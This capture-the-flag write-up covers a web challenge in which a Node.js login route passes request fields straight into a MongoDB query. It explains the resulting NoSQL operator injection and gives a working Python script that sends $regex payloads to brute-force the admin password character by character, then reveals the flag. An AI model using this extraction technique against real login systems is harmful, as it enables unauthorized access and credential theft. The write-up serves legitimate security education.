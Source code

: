 ## HEROS DataBase Breach (Points: 275)

The problem statement goes like this:

![image](https://user-images.githubusercontent.com/98008131/164887944-66b09647-b371-4d27-9e62-7c1ae0b4a118.png)

So we have a link to the actual page and also a download link for the source code. The question also hints us that we need to fiddle with the mongoDB database. On the website, we are asked a username and a password:

![image](https://user-images.githubusercontent.com/98008131/164889475-94e36514-bd7b-4fc4-a289-5796c687e2a5.png)

Let us download the tar file and unzip it to see its contents. In the file `entrypoint.sh`, we see this bit of code:

![image](https://user-images.githubusercontent.com/98008131/164888016-302383bc-91ac-4551-8fdb-2e27a12ade53.png)

So this suggests that entries `username: admin` and `password: CHTB{f4k3_fl4g_f0r_t3st1ng}` are added to the collection named `users`. This suggests that the username for login must be `admin` and password must be the real flag.

Looking around in the source file, we see the following code in `routes/index.js`:

![image](https://user-images.githubusercontent.com/98008131/164888216-160753b5-ba07-4526-ab40-fe15559408da.png)

So, it destructures `username` and `password` from the body of the request and then does `User.find(username, password)`. We can see that the code doesnt try to find an exact match for the username string and password string, but rather passes them as arguments to `User.find`. So we can pass in objects that look like MongoDB queries as both username and password. We know the username will be `admin`. For the flag, this is what we can do: 

The flag must begin with `wannahack{`, so the first letter is definitely `w`. We can pass the following object as the password, `{"$regex":"^w"}`. This will try to search if there is any entry that has username `admin` and `password` begins with `w`. When it finds that, it will return `{"logged": 1, "message": "Login Successful, welcome back admin."}`. If we instead searched for `x` instead of `w`, it would have given a different response. So by this we can be sure that the flag begins with `w`. When we are sure of that, we can go further and check `wa`, `wb`, and so on. It will return success message everytime we correctly guess first few letters of the flag. Trying to exploit this, we come up with the following code:

```python
import requests
import string

url = "http://wannahack.copsiitbhu.co.in:2437/"
headers = {"content-type": "application/json"}

leaked_data = list("wannahack{")

while True:
	for character in string.printable:
		if character not in ['*', '+', '.', '?', '"', '\\']:

			print(f"trying {''.join(leaked_data) + character}")

			payload = (
				'{"username": {"$eq": "admin"}, "password": {"$regex":"^%s"}}'
				% (''.join(leaked_data) + character,)
				)

			r = requests.post(url + 'api/login', data=payload, headers = headers)

			if r.json() == {
			"logged": 1,
			"message": "Login Successful, welcome back admin."
			}:
				leaked_data.append(character)
				break
```

Running the code, we brute force through every letter one by one until we finally achieve the password. The code output goes as follows after running some time:

![image](https://user-images.githubusercontent.com/98008131/164888724-db6131b4-213f-4484-b1b2-d4eda5bdbf73.png)

Tinkering with the output, we get that the flag is `wannahack{y0u_5u5t_H@ck3d_M0NG0_D5}`

The following youtube video definitely helped in formulating the solution: https://www.youtube.com/watch?v=7kmttmmlygc
